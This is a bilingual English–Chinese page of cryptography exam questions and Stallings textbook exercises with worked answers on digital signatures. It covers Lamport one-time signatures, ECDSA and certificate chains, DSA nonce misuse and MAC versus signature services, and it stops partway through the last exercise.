Q3. (Hash-based signature, 12 marks) To sign an \(n\)-bit message \(b_1\dots b_n\), a sender chooses \(2n\) random 64-bit secret keys \(k_1,\dots,k_n\) and \(k'_1,\dots,k'_n\) and publishes \(v_i=H(k_i\,\Vert\,0)\) and \(v'_i=H(k'_i\,\Vert\,1)\) for a one-way hash \(H\). The signature contains \(k_i\) if \(b_i=0\) and \(k'_i\) if \(b_i=1\), for \(i=1,\dots,n\). (a) How does the receiver validate a message? (3 marks) (b) Is one signature secure? (3 marks) (c) How often can one key set be used? Justify. (3 marks) (d) Give two practical problems and the signature size for \(n=256\). (3 marks)Q3.（基于散列的签名，12 分）要对 \(n\) 位的消息 \(b_1\dots b_n\) 签名，发送方选取 \(2n\) 对随机的 64 位秘密密钥，分别记为 \(k_1,\dots,k_n\) 和 \(k'_1,\dots,k'_n\)，并公布 \(v_i=H(k_i\,\Vert\,0)\) 和 \(v'_i=H(k'_i\,\Vert\,1)\)，所用的单向散列函数为 \(H\)。签名中，若 \(b_i=0\) 则包含 \(k_i\)，若 \(b_i=1\) 则包含 \(k'_i\)，针对 \(i=1,\dots,n\) 的每一位。(a) 接收方如何验证消息？（3 分）(b) 单个签名是否安全？（3 分）(c) 一组密钥可以使用几次？请说明理由。（3 分）(d) 给出两个实际问题，并给出 \(n=256\) 的签名长度。（3 分）
Answer
(a) For each \(i\) the receiver reads \(b_i\) from the message, hashes the received key with the matching suffix (\(H(k_i\,\Vert\,0)\) if \(b_i=0\), \(H(k'_i\,\Vert\,1)\) if \(b_i=1\)) and compares it with the published \(v_i\) or \(v'_i\). The signature is valid iff all \(n\) comparisons succeed.(a) 对每个 \(i\)，接收方从消息中读取 \(b_i\)，用相应的后缀（\(b_i=0\) 时为 \(H(k_i\,\Vert\,0)\)，\(b_i=1\) 时为 \(H(k'_i\,\Vert\,1)\)）对收到的密钥做散列，并将结果与公布的 \(v_i\) 或 \(v'_i\) 比较。当且仅当 \(n\) 次比较全部成功时，签名有效。
(b) To change a bit the attacker needs the key for the opposite bit value, whose only trace is its hash; with a one-way \(H\) he would have to invert \(H\). The keys are too short, though: an exhaustive search over \(2^{64}\) keys is within reach of a well-resourced attacker, so keys should have at least 128 bits.(b) 要改变一位，攻击者需要该位相反取值所对应的密钥，而该密钥唯一留下的痕迹是其散列值；若 \(H\) 是单向的，他就必须对 \(H\) 求逆。不过，这些密钥太短：对 \(2^{64}\) 个密钥进行穷举搜索，对资源充足的攻击者而言是可以实现的，因此密钥至少应为 128 位。
(c) Only once. Each signature reveals one key of every pair. If a second message differs from the first in \(d\) positions, the attacker then knows both keys at those positions and can sign any of \(2^d\) messages (all bit combinations at those positions, the other bits fixed).(c) 只能使用一次。每个签名都会揭示每一对密钥中的一个。若第二条消息与第一条消息在 \(d\) 个位置上不同，攻击者就会同时知道这些位置上的两个密钥，从而能够为 \(2^d\) 条消息中的任意一条签名（这些位置上的所有位组合，其余位保持不变）。
(d) For \(n=256\) the signature has \(256\cdot64=16\,384\) bits (2 KiB), and the public values are \(2n=512\) hash values (16 KiB with SHA-256). A fresh key set must be generated and authentically distributed for every message, and the signer must track which sets are used; a long message must first be hashed to \(n\) bits.(d) 对于 \(n=256\) 位的消息，签名长 \(256\cdot64=16\,384\) 位（2 KiB），公开值为 \(2n=512\) 个散列值（SHA-256 时为 16 KiB）。每条消息都必须生成一套新的密钥并经认证地分发，签名者还必须记录哪些密钥组已经使用；长消息必须先被散列为 \(n\) 位。
思路：Lamport 一次性签名——每一位对应一对密钥，签名公开其中一半，所以一套密钥只能用一次；这是哈希型后量子签名的雏形。
Q4. (Scenario, 12 marks) A vendor signs firmware images with ECDSA and ships its X.509 certificate chain with each image. Devices store only the root CA's public key. (a) Give the ECDSA signing and verification steps and show that a valid signature is accepted. (6 marks) (b) Explain how a device decides to trust the vendor's public key, and name two further checks. (3 marks) (c) Compare ECDSA with RSA-PSS for this use: signature size at 128-bit security and the role of the per-signature random value. (3 marks)Q4.（情景分析，12 分）某厂商用 ECDSA 对固件映像签名，并随每个映像附带其 X.509 证书链。设备只存储根 CA 的公钥。(a) 给出 ECDSA 的签名与验证步骤，并证明有效签名会被接受。（6 分）(b) 解释设备如何判定可以信任厂商的公钥，并列出另外两项检查。（3 分）(c) 就本用途比较 ECDSA 与 RSA-PSS：128 位安全强度下的签名长度，以及每次签名的随机值所起的作用。（3 分）
Answer
(a) Parameters \((q,a,b,G,n)\); key pair \(d\in[1,n-1]\), \(Q=dG\). Sign: choose a random \(k\in[1,n-1]\); \((x,y)=kG\); \(r=x\bmod n\); \(e=H(m)\); \(s=k^{-1}(e+dr)\bmod n\); restart with a new \(k\) if \(r=0\) or \(s=0\); output \((r,s)\). Verify: check \(r,s\in[1,n-1]\); \(w=s^{-1}\bmod n\); \(u_1=ew\), \(u_2=rw \pmod n\); \(X=u_1G+u_2Q\); reject if \(X=O\); accept iff \(x_1\bmod n=r\). Correctness: \(k\equiv s^{-1}(e+dr)=u_1+u_2d \pmod n\), so \(u_1G+u_2Q=(u_1+u_2d)G=kG\), whose \(x\)-coordinate reduced modulo \(n\) is \(r\).(a) 参数 \((q,a,b,G,n)\)；密钥对 \(d\in[1,n-1]\)、\(Q=dG\)。签名：选取随机数 \(k\in[1,n-1]\)；计算 \((x,y)=kG\)；计算 \(r=x\bmod n\)；计算 \(e=H(m)\)；计算 \(s=k^{-1}(e+dr)\bmod n\)；若 \(r=0\) 或 \(s=0\)，则换一个新的 \(k\) 重新开始；输出 \((r,s)\)。验证：检查 \(r,s\in[1,n-1]\)；计算 \(w=s^{-1}\bmod n\)；计算 \(u_1=ew\)、\(u_2=rw \pmod n\)；计算 \(X=u_1G+u_2Q\)；若 \(X=O\) 则拒绝；当且仅当 \(x_1\bmod n=r\) 时接受。正确性：\(k\equiv s^{-1}(e+dr)=u_1+u_2d \pmod n\)，因此 \(u_1G+u_2Q=(u_1+u_2d)G=kG\)，其 \(x\) 坐标模 \(n\) 后等于 \(r\)。
(b) The device verifies the signature on the vendor certificate with the intermediate CA's key, and that certificate with the root's public key stored on the device: a chain of signatures ending at the trust anchor. Further checks: validity dates, that the certificate allows code signing, and that it is not revoked. Only then does it use the vendor key on the firmware signature.(b) 设备先用中间 CA 的公钥验证厂商证书上的签名，再用存储在设备中的根公钥验证中间 CA 的证书：这是一条止于信任锚点的签名链。另外的检查包括：有效期、证书是否允许用于代码签名，以及证书是否未被吊销。只有这些检查通过后，设备才会用厂商公钥验证固件签名。
(c) At 128-bit security ECDSA uses a 256-bit curve, so the signature is \(2\cdot256=512\) bits; RSA-PSS needs a 3072-bit modulus, so the signature is 3072 bits. ECDSA's \(k\) must be secret and unique: reuse reveals \(d\), so a strong random generator or a deterministic \(k\) (RFC 6979) is essential. The PSS salt is public and its reuse only loses randomisation.(c) 在 128 位安全强度下，ECDSA 使用 256 位曲线，因此签名长 \(2\cdot256=512\) 位；RSA-PSS 需要 3072 位模数，因此签名长 3072 位。ECDSA 的 \(k\) 必须保密且唯一：重用会泄露 \(d\)，因此必须使用强随机数生成器，或使用确定性的 \(k\)（RFC 6979）。PSS 的盐值是公开的，重用只会失去随机性。
思路：设备只信根 CA 公钥，沿证书链逐级验签，最后才用厂商公钥验固件签名。
Textbook exercises课后习题
Textbook exercises with answers: 14 questions教材习题及答案，共 14 题，点击展开
E1. (Review Question 13.1, Stallings) List two disputes that can arise in the context of message authentication.E1.（复习题 13.1，Stallings）列出消息认证中可能产生的两种争议。
Answer
Message authentication with a shared secret key (a MAC) protects the two parties against a third party, but not against each other. Two disputes follow.用共享密钥的消息认证（MAC）可以保护双方免受第三方的攻击，但无法保护双方彼此之间。由此产生两种争议。
- Forgery by the receiver. Mary forges a message, authenticates it with the shared key, and claims that it came from John. John cannot prove that he did not send it.接收方伪造。 Mary 伪造一条消息，用共享密钥对它进行认证，并声称它来自 John。John 无法证明自己没有发送过这条消息。
- Repudiation by the sender. John sends a genuine message to Mary and later denies having sent it. Mary cannot prove that John sent it, because she holds the same key and could have created the message herself.发送方抵赖。 John 向 Mary 发送了一条真实的消息，之后却否认发送过它。Mary 无法证明是 John 发送的，因为她持有同一把密钥，本来也可以自己生成这条消息。
A digital signature resolves both disputes, because only the signer holds the signing key and any third party can verify the result.数字签名可以同时解决这两种争议，因为只有签名者持有签名密钥，而且任何第三方都能验证结果。
思路：共享密钥的 MAC 只能防第三方，收发双方互相伪造或抵赖都无法裁决。
E2. (Review Question 13.2, Stallings) What are the properties a digital signature should have?E2.（复习题 13.2，Stallings）数字签名应当具有哪些性质？
Answer
A digital signature is used when sender and receiver do not fully trust each other, so it must offer more than authentication. It must have three properties.当发送方和接收方彼此并不完全信任时，就需要使用数字签名，因此它必须提供比认证更多的功能。它应当具有三个性质。
- It must verify the author of the message and the date and time of the signature.它必须能够验证消息的作者，以及签名的日期和时间。
- It must authenticate the contents of the message at the time of the signature.它必须认证签名时刻的消息内容。
- It must be verifiable by third parties, so that disputes can be resolved.第三方必须能够验证它，以便解决争议。
Because of these properties the signature function includes the authentication function, and in addition it provides non-repudiation.基于这些性质，签名函数包含认证函数，并且还提供了不可否认性。
思路：作者与时间、内容、第三方可验证，三条合起来就是“认证加不可否认”。
E3. (Review Question 13.3, Stallings) What requirements should a digital signature scheme satisfy?E3.（复习题 13.3，Stallings）数字签名方案应当满足哪些要求？
Answer
A digital signature scheme must satisfy the following requirements.数字签名方案必须满足以下要求。
- The signature must be a bit pattern that depends on the message being signed.签名必须是依赖于被签名消息的比特模式。
- The signature must use information known only to the sender, to prevent both forgery and denial.签名必须使用只有发送方知道的信息，以防止伪造和抵赖。
- It must be relatively easy to produce the signature.签名应当比较容易产生。
- It must be relatively easy to recognise and verify the signature.签名应当比较容易识别和验证。
- It must be computationally infeasible to forge a signature, either by constructing a new message for an existing signature or by constructing a fraudulent signature for a given message.伪造签名在计算上必须是不可行的，无论是为已有签名构造一条新消息，还是为给定消息构造伪造的签名。
- It must be practical to keep a copy of the signature in storage.签名的副本必须便于存储。
A secure hash function inside the signing scheme supports these requirements, because a short hash can be signed instead of the whole message.签名方案中的安全哈希函数有助于满足这些要求，因为可以对较短的哈希值签名，而不必对整条消息签名。
思路：依赖消息、依赖发送方秘密、易产生易验证、难伪造、可存档。
E4. (Review Question 13.4, Stallings) What is the difference between direct and arbitrated digital signature?E4.（复习题 13.4，Stallings）直接数字签名与仲裁数字签名有什么区别？
Answer
| Direct signature直接签名 | Arbitrated signature仲裁签名 | |
|---|---|---|
| Parties参与方 | Only the source and the destination只有源方和目的方 | Source, destination and a trusted arbiter源方、目的方和一个可信仲裁者 |
| Verification验证 | The destination verifies the signature with the source's public key目的方用源方的公钥验证签名 | Every signed message first goes to the arbiter, who checks the signature and the message, dates it and forwards it to the destination with a statement that it has been verified每条签名消息先发送给仲裁者，由仲裁者检查签名和消息、加上日期，然后连同已验证的声明转发给目的方 |
| Trust信任 | The scheme depends entirely on the security of the sender's private key方案完全依赖于发送方私钥的安全性 | Both parties trust the arbiter双方都必须信任仲裁者 |
| Weakness缺点 | The sender can deny a message by claiming that the key was lost or stolen发送方可以声称密钥丢失或被窃，从而否认消息 | The arbiter becomes a bottleneck and a single point of trust仲裁者成为瓶颈，并且是单点信任 |
The arbiter removes the repudiation problem of the direct scheme, at the price of one more party that must be trusted and that sees all traffic.仲裁者消除了直接方案中的抵赖问题，代价是多了一个必须被信任、并且能看到所有通信的参与方。
思路：直接签名只有收发双方；仲裁签名所有消息先经可信第三方验证并加时间。
E5. (Review Question 13.5, Stallings) In what order should the signature function and the confidentiality function be applied to a message, and why?E5.（复习题 13.5，Stallings）签名函数和机密性函数应以什么顺序作用于消息？为什么？
Answer
The signature must be applied first and the confidentiality function second: the message is signed, and then the message together with its signature is encrypted. The signature is the inner operation.必须先应用签名函数，再应用机密性函数：先对消息签名，然后把消息和签名一起加密。签名是内层操作。
The reason is dispute resolution. In a dispute a third party has to see the message and its signature. If the signature is the inner operation, the recipient can decrypt once, keep the plaintext message and the signature, and show both to the third party later, without revealing any decryption key. If the signature were computed on the encrypted message, the third party would also need the decryption key to read the original message. A signature on ciphertext also proves only that the signer signed the ciphertext, not that the signer knew its contents.原因在于争议解决。争议时，第三方必须能看到消息及其签名。如果签名是内层操作，接收方只需解密一次，保留明文消息和签名，之后就可以把两者出示给第三方，而无需透露任何解密密钥。如果对加密后的消息签名，第三方还需要解密密钥才能读取原始消息。对密文签名还只能证明签名者签了这段密文，而不能证明签名者知道其内容。
思路：先签名后加密，收方才能保存明文加签名交给仲裁者，而不必交出解密密钥。
E6. (Review Question 13.6, Stallings) What are some threats associated with a direct digital signature scheme?E6.（复习题 13.6，Stallings）直接数字签名方案有哪些威胁？
Answer
The validity of a direct scheme depends on the secrecy of the sender's private key. This gives two threats.直接方案的有效性依赖于发送方私钥的保密性，由此产生两种威胁。
- Repudiation. A sender who wants to deny a message can claim that the private key was lost or stolen and that someone else forged the signature. Administrative controls reduce this: every signed message must contain a timestamp, and the loss of a key must be reported promptly to a central authority.抵赖。 想要否认消息的发送方可以声称私钥丢失或被窃，并且是别人伪造了签名。管理措施可以降低这种风险：每条签名消息都必须包含时间戳，并且密钥丢失必须及时报告给中心机构。
- Real theft of the key. If the key is really stolen at time \(T\), the opponent can sign messages with a timestamp earlier than or equal to \(T\), and these cannot be told apart from genuine ones.密钥真被窃取。 如果密钥确实在时刻 \(T\) 被窃取，对手可以对时间戳不晚于 \(T\) 的消息签名，而这些签名与真实签名无法区分。
A related problem is that the receiver must be sure that the public key really belongs to the source. The accepted remedy for these threats is the public-key certificate issued by a certificate authority.还有一个相关问题：接收方必须确定公钥确实属于源方。解决这些威胁公认的办法是由证书颁发机构签发的公钥证书。
思路：威胁来自私钥：发送方谎称私钥被盗来抵赖，或私钥真被盗后伪造带早期时间戳的签名。
E7. (Review Question 2.11, Stallings & Brown) What is a digital signature?E7.（复习题 2.11，Stallings & Brown）什么是数字签名？
Answer
A digital signature is a value computed from a message and the signer's private key. It provides origin authentication, data integrity and signatory non-repudiation.数字签名是由消息和签名者私钥计算出的一个值。它提供来源认证、数据完整性和签名者的不可否认性。
The signer computes a hash of the message and applies the signature-generation algorithm to the hash and the private key. The receiver rehashes the received message and feeds the new hash, the signature and the signer's public key to the verification algorithm, which answers valid or not valid. Only the signer holds the private key, and any change to the message makes verification fail. The message itself is not encrypted, so a signature gives no confidentiality.签名者先计算消息的哈希值，再把签名生成算法作用于该哈希值和私钥。接收方对收到的消息重新做哈希，并把新的哈希值、签名以及签名者的公钥输入验证算法，由算法给出“有效”或“无效”的结论。只有签名者持有私钥，而且对消息的任何改动都会使验证失败。消息本身没有被加密，所以签名不提供机密性。
思路：签名 = 用私钥对消息哈希做变换，公钥可验证，提供认证、完整性、不可否认，不提供保密。
E8. (Review Question 2.12, Stallings & Brown) What is a public-key certificate?E8.（复习题 2.12，Stallings & Brown）什么是公钥证书？
Answer
A public-key certificate is a data block that contains a public key and the user ID of its owner, together with issuer information and the validity period. The whole block is signed by a trusted third party, the certificate authority (CA). X.509 is the universal format.公钥证书是一个数据块，包含一个公钥、其所有者的用户 ID，以及颁发者信息和有效期。整个数据块由可信第三方，即证书颁发机构（CA）签名。X.509 是通用格式。
The owner sends the user ID and public key to the CA over a secure channel. The CA hashes them, signs the hash with its private key and returns the signed certificate. Anyone can recompute the hash of the certificate (without the signature) and verify the signature with the CA's public key. The certificate may travel over an untrusted channel, because only the CA can produce a valid signature, so it binds a public key to its owner and prevents forged key announcements.所有者通过安全信道把用户 ID 和公钥发送给 CA。CA 对它们做哈希，用其私钥对哈希值签名，然后返回已签名的证书。任何人都可以重新计算证书（不含签名）的哈希，并用 CA 的公钥验证签名。证书可以通过不可信信道传送，因为只有 CA 能产生有效签名。因此它把公钥与所有者绑定在一起，并防止伪造的公钥公告。
思路：证书 = CA 对“身份 + 公钥 + 有效期”的签名，验证者只需可靠地持有 CA 公钥。
E9. (Review Question 2.13, Stallings & Brown) How can public-key encryption be used to distribute a secret key?E9.（复习题 2.13，Stallings & Brown）如何用公钥加密来分发秘密密钥？
Answer
The sender uses a digital envelope.发送方使用数字信封。
- Bob generates a random one-time symmetric key.Bob 生成一个随机的一次性对称密钥。
- Bob encrypts the message with this key (fast symmetric encryption).Bob 用这个密钥加密消息（对称加密速度快）。
- Bob encrypts the one-time key with Alice's public key. He should take this key from Alice's certificate, so that he knows it is valid.Bob 用 Alice 的公钥加密这个一次性密钥。他应从 Alice 的证书中获取该公钥，以便确认它是有效的。
- Bob sends the encrypted message and the encrypted key.Bob 把加密后的消息和加密后的密钥发送出去。
- Alice decrypts the one-time key with her private key and then decrypts the message with it.Alice 用她的私钥解密一次性密钥，然后用它解密消息。
Only Alice holds the private key, so only she can recover the secret key. No key had to be shared beforehand, and the large message is protected at symmetric speed.只有 Alice 持有私钥，所以只有她能恢复这把秘密密钥。事先无需共享任何密钥，而且大消息以对称加密的速度得到保护。
思路：用接收方公钥加密一次性对称密钥，只有持私钥者能取出，这就是数字信封。
E10. (Problem 13.2, Stallings) DSA specifies that if the signature generation process results in a value of \(s = 0\), a new value of \(k\) should be generated and the signature should be recalculated. Why?E10.（习题 13.2，Stallings）DSA 规定：如果签名生成过程得到的某个值为 \(s = 0\)，则应重新选取一个新的 \(k\)，并重新计算签名。为什么？
Answer
DSA computes \(r = (g^k \bmod p) \bmod q\) and \(s = k^{-1}\,(H(M) + xr) \bmod q\), where \(x\) is the private key and \(q\) is prime. Verification starts with \(w = s^{-1} \bmod q\). There are two reasons to reject \(s = 0\).DSA 计算 \(r = (g^k \bmod p) \bmod q\) 和 \(s = k^{-1}\,(H(M) + xr) \bmod q\)，其中 \(x\) 是私钥，\(q\) 是素数。验证从 \(w = s^{-1} \bmod q\) 开始。有两个理由要拒绝 \(s = 0\)。
- Verification is impossible. The inverse of \(0\) does not exist modulo \(q\), so a signature with \(s = 0\) cannot be verified.无法验证。 \(0\) 模 \(q\) 的逆元不存在，因此用 \(s = 0\) 生成的签名无法验证。
- The private key leaks. If \(s = 0\), then \(H(M) + xr \equiv 0 \pmod q\), so \(x \equiv -H(M)\,r^{-1} \pmod q\). The values \(H(M)\) and \(r\) are public (the hash of the message and the first signature component), so anyone who sees such a signature can compute \(x\).私钥泄露。 如果 \(s = 0\)，那么 \(H(M) + xr \equiv 0 \pmod q\)，所以 \(x \equiv -H(M)\,r^{-1} \pmod q\)。\(H(M)\) 和 \(r\)（消息的哈希值和签名的第一个分量）是公开的，因此任何看到这样签名的人都能算出 \(x\)。
Choosing a fresh \(k\) gives a new \(r\) and \(s\), and \(s = 0\) happens with negligible probability.选取一个新的 \(k\)，就会得到新的 \(r\) 和 \(s\)，而 \(s = 0\) 的情况出现的概率可以忽略不计。
思路：s=0 时既无法求逆验证，又会直接暴露私钥 x。
E11. (Problem 13.3, Stallings) What happens if a \(k\) value used in creating a DSA signature is compromised?E11.（习题 13.3，Stallings）如果创建 DSA 签名时用到的 \(k\) 被泄露，会发生什么？
Answer
The signer's private key \(x\) can be computed. In DSA, \(s = k^{-1}\,(H(M) + xr) \bmod q\). Multiplying by \(k\) gives \(sk \equiv H(M) + xr \pmod q\), so签名者的私钥 \(x\) 可以被计算出来。在 DSA 中，\(s = k^{-1}\,(H(M) + xr) \bmod q\)。乘以 \(k\) 后得到 \(sk \equiv H(M) + xr \pmod q\)，所以
\[x \equiv (sk - H(M))\,r^{-1} \pmod q\]
The signature \((r, s)\) and the hash \(H(M)\) are public, and \(r \neq 0\) is invertible modulo the prime \(q\). An attacker who knows \(k\) for one signature therefore recovers \(x\) and can then forge signatures on any message: this is a total break.签名 \((r, s)\) 和哈希值 \(H(M)\) 都是公开的，而 \(r \neq 0\) 在素数 \(q\) 下有逆元。因此，攻击者一旦知道某个签名的 \(k\)，就能恢复 \(x\)，然后伪造任何消息的签名：这是完全破解。
The same happens if \(k\) is used for two messages. The two signatures give \(s_1 - s_2 \equiv k^{-1}\,(H(M_1) - H(M_2)) \pmod q\), so \(k\) can be computed and then \(x\). For this reason \(k\) must be secret, random and used only once.如果 \(k\) 被用于两条消息，情况相同。两个签名会给出 \(s_1 - s_2 \equiv k^{-1}\,(H(M_1) - H(M_2)) \pmod q\)，因此可以算出 \(k\)，进而得到 \(x\)。因此，\(k\) 必须保密、随机，并且只能使用一次。
思路：由 s·k = H(M) + x·r 可直接解出私钥 x，k 泄露或重复使用等于私钥泄露。
E12. (Problem 13.7, Stallings) A variation of Diffie–Hellman is proposed as a digital signature. Public elements: a prime \(q\) and a primitive root \(a < q\) of \(q\). Private key: \(X < q\). Public key: \(Y = a^X \bmod q\). To sign a message \(M\), compute \(h = H(M)\), where \(\gcd(h, q-1) = 1\) is required (if not, append the hash to the message and hash again until it holds). Then compute \(Z\) with \(Z \equiv X \cdot h \pmod{q-1}\). The signature is \(s = a^Z \bmod q\). To verify, a user computes \(t\) with \(t \cdot h \equiv 1 \pmod{q-1}\) and checks that \(Y = s^t \bmod q\).E12.（习题 13.7，Stallings）有人提出把 Diffie–Hellman 的一种变体用作数字签名。公开元素：素数 \(q\) 和 \(q\) 的一个原根 \(a < q\)。私钥：\(X < q\)。公钥：\(Y = a^X \bmod q\)。为了对消息 \(M\) 签名，计算 \(h = H(M)\)，其中要求 \(\gcd(h, q-1) = 1\)（若不成立，就把哈希值附加到消息后再做哈希，直到成立为止）。然后用 \(Z \equiv X \cdot h \pmod{q-1}\) 计算 \(Z\)。签名为 \(s = a^Z \bmod q\)。验证时，用户用 \(t \cdot h \equiv 1 \pmod{q-1}\) 计算 \(t\)，并检查 \(Y = s^t \bmod q\)。
a. Show that the scheme works: a valid signature passes the verification.a. 证明该方案可行：有效签名能够通过验证。
b. Show that the scheme is unacceptable by describing a simple technique for forging the signature of a user on an arbitrary message.b. 说明该方案不可接受：描述一种简单的技术，用来伪造某用户对任意消息的签名。
Answer
(a) Because \(\gcd(h, q-1) = 1\), the inverse \(t\) of \(h\) modulo \(q-1\) exists, and \(th = 1 + m(q-1)\) for some integer \(m\). For a valid signature,(a) 由于 \(\gcd(h, q-1) = 1\)，\(h\) 模 \(q-1\) 的逆元 \(t\) 存在，并且对某个整数 \(m\) 有 \(th = 1 + m(q-1)\)。对于有效签名，
\[s^t = (a^Z)^t = a^{Zt} = a^{Xht} = a^{X(1 + m(q-1))} = a^X \cdot (a^{q-1})^{Xm} \equiv a^X = Y \pmod q\]
since \(a^{q-1} \equiv 1 \pmod q\) (Fermat). So the check \(Y = s^t \bmod q\) succeeds.由于 \(a^{q-1} \equiv 1 \pmod q\)（费马定理），所以验证式 \(Y = s^t \bmod q\) 成立。
(b) Everything needed to sign is public. An attacker who knows only the public key \(Y\) takes any message \(M\) and computes \(h = H(M)\), making \(\gcd(h, q-1) = 1\) in the same way as the signer. The attacker then sets(b) 签名所需的一切都是公开的。只知道公钥 \(Y\) 的攻击者，取任意消息 \(M\)，按照签名者的方式计算 \(h = H(M)\)，使得 \(\gcd(h, q-1) = 1\)。然后，攻击者令
\[s = Y^h \bmod q\]
Verification computes \(t = h^{-1} \bmod (q-1)\) and \(s^t = Y^{ht} = Y^{1 + m(q-1)} \equiv Y \pmod q\), so the forged signature is accepted. It equals \(a^{Xh}\), which is exactly the genuine signature, obtained without \(X\). The attacker can sign every message (a universal forgery), so the scheme gives no security. In DSA the secret random \(k\) and the dependence on \(X\) in the verification equation prevent this.验证计算 \(t = h^{-1} \bmod (q-1)\) 和 \(s^t = Y^{ht} = Y^{1 + m(q-1)} \equiv Y \pmod q\)，因此伪造签名会被接受。它等于 \(a^{Xh}\)，恰好就是真实签名，而无需 \(X\)。攻击者可以对任何消息签名（通用伪造），所以该方案没有任何安全性。在 DSA 中，秘密随机数 \(k\) 以及验证方程中对 \(X\) 的依赖，防止了这种攻击。
思路：验证只用公开量 Y、h，所以 s = Y^h 就是合法签名，任何人都能伪造。
E13. (Problem 13.8, Stallings) A digital signature scheme uses a cryptographic one-way hash function \(H\) as follows. To sign an \(n\)-bit message, the sender generates in advance \(2n\) random 64-bit secret keys \(k_1, \ldots, k_n\) and \(k'_1, \ldots, k'_n\). The sender publishes the validation parameters \(v_i = H(k_i \parallel 0)\) and \(v'_i = H(k'_i \parallel 1)\) for \(i = 1, \ldots, n\). To sign a message \(M\) with bits \(M_1, \ldots, M_n\), the sender sends \(k_i\) if \(M_i = 0\) and \(k'_i\) if \(M_i = 1\). For example, if the first three bits are 011, the first three keys of the signature are \(k_1, k'_2, k'_3\).E13.（习题 13.8，Stallings）一种数字签名方案使用单向哈希函数 \(H\)，过程如下。为了对 \(n\) 位的消息签名，发送方事先生成 \(2n\) 对随机的 64 位秘密密钥 \(k_1, \ldots, k_n\) 和 \(k'_1, \ldots, k'_n\)。发送方公布验证参数 \(v_i = H(k_i \parallel 0)\) 和 \(v'_i = H(k'_i \parallel 1)\)，用于 \(i = 1, \ldots, n\)。为了对比特为 \(M_1, \ldots, M_n\) 的消息 \(M\) 签名，若比特为 \(M_i = 0\)，则发送方发送 \(k_i\)；若比特为 \(M_i = 1\)，则发送 \(k'_i\)。例如，若前三个比特为 011，则签名的前三个密钥为 \(k_1, k'_2, k'_3\)。
a. How does the receiver validate the message?a. 接收方如何验证消息？
b. Is the technique secure?b. 该技术安全吗？
c. How many times can the same set of secret keys be safely used for different messages?c. 同一组秘密密钥可以安全地用于多少条不同的消息？
d. What, if any, practical problems does this scheme present?d. 这个方案存在哪些实际问题（如果有的话）？
Answer
(a) Validation. The receiver takes the message bits \(M_1, \ldots, M_n\) and the received keys \(K_1, \ldots, K_n\). For each \(i\) the receiver checks \(H(K_i \parallel 0) = v_i\) if \(M_i = 0\), and \(H(K_i \parallel 1) = v'_i\) if \(M_i = 1\). The message is accepted only if all \(n\) checks succeed.(a) 验证。 接收方取消息比特 \(M_1, \ldots, M_n\) 和收到的密钥 \(K_1, \ldots, K_n\)。对每个 \(i\)，若 \(M_i = 0\)，则检查 \(H(K_i \parallel 0) = v_i\)；若 \(M_i = 1\)，则检查 \(H(K_i \parallel 1) = v'_i\)。只有全部 \(n\) 项检查都通过，才接受消息。
(b) Security. The scheme is secure for a single message if \(H\) is one-way. An attacker who sees \(v_i\) and \(v'_i\) cannot find the keys that were not revealed, so it cannot produce a key for a bit value that the signer did not sign. Changing a bit of \(M\) requires the other key of that pair. One caveat: the keys are only 64 bits long, so an exhaustive search for the preimage of one published value costs about \(2^{64}\) hash evaluations, which is a weak margin today.(b) 安全性。 若 \(H\) 是单向的，该方案对单条消息是安全的。攻击者即使看到 \(v_i\) 和 \(v'_i\)，也找不到未被揭示的密钥，因此无法为签名者未签过的比特值生成密钥。改动 \(M\) 的一个比特，就需要该对中的另一把密钥。需要注意：密钥只有 64 位，因此对其中一个已公布值做原像的穷举搜索大约需要 \(2^{64}\) 次哈希计算，这在今天是个很薄弱的安全余量。
(c) Reuse. Only once. One signature reveals exactly one key of each pair. A second message that differs from the first in \(d\) bit positions reveals both keys of those \(d\) pairs. The attacker can then sign any message that, at each position, uses a bit value already signed: \(2^d\) messages. Each further signature reveals more keys, so one key set is safe for one message only (a one-time signature).(c) 重用。 只能使用一次。一个签名会泄露每对中的一把密钥。与第一条消息在 \(d\) 个比特位置上不同的第二条消息，会泄露这 \(d\) 对密钥各自的两把。于是攻击者可以对任何消息签名，只要它在每个位置上的比特值都已经被签过：这样的消息共有 \(2^d\) 条。之后每个签名都会泄露更多密钥，因此一组密钥只能安全地签一条消息（一次性签名）。
(d) Practical problems.(d) 实际问题。
- The signature is very long: \(64n\) bits, which is 64 times the message length, and the public key has \(2n\) hash values. Signing the hash of the message (for example \(n = 256\)) still gives about 2 KB of signature and 16 KB of public key.签名非常长：\(64n\) 位，是消息长度的 64 倍，并且公钥包含 \(2n\) 个哈希值。即使只对消息的哈希值（例如 \(n = 256\)）签名，仍然会得到约 2 KB 的签名和 16 KB 的公钥。
- A new key set and new validation parameters are needed for every message, and each new set of public values must itself be distributed and authenticated, for example with a certificate.每条消息都需要一套新的密钥集和新的验证参数，而且每一组新的公开值本身也必须分发，并经过认证（例如使用证书）。
- The signer must store \(2n\) secret keys and must never reuse a key set.签名者必须保存 \(2n\) 个秘密密钥，并且绝不能重复使用同一密钥集。
思路：每位消息公开一把密钥，单向哈希保证不能伪造；但每套密钥只能签一次，签名和公钥都很长。
E14. (Problem 2.5, Stallings & Brown) Compare the security services of digital signatures (DS) and message authentication codes (MAC). Oscar can observe all messages between Alice and Bob and knows no key except the public key in the case of DS. The value \(\mathrm{auth}(x)\) is computed by a DS or a MAC algorithm, respectively. State whether and how (i) DS and (ii) MAC protect against each attack.E14.（习题 2.5，Stallings & Brown）比较数字签名（DS）和消息认证码（MAC）的安全服务。Oscar 可以观察 Alice 和 Bob 之间的所有消息，并且除了 DS 情况下的公钥外，他不知道任何密钥。分别由 DS 或 MAC 算法计算出的值 \(\mathrm{auth}(x)\)。请分别说明 (i) DS 和 (ii) MAC 是否能防御每种攻击，以及如何防御。
a. (Message integrity) Alice sends the message \(x\) = "Transfer $1000 to Mark" in the clear together with \(\mathrm{auth}(x)\). Oscar intercepts the message and replaces "Mark" with "Oscar". Will Bob detect this?a. （消息完整性）Alice 以明文发送消息 \(x\) = “Transfer $1000 to Mark”，并附上 \(\mathrm{auth}(x)\)。Oscar 截获消息，把 “Mark” 替换成 “Oscar”。Bob 能发现这一点吗？
b. (Replay) Alice sends \(x\) = "Transfer $1000 to Oscar" in the clear together with \(\mathrm{auth}(x)\). Oscar records the message and the value and sends them 100 times to Bob. Will Bob detect this?b. （重放）Alice 以明文发送消息 \(x\) = “Transfer $1000 to Oscar”，并附上 \(\mathrm{auth}(x)\)。Oscar 记录下这条消息及其值，并把两者向 Bob 重复发送 100 次。Bob 能发现这一点吗？
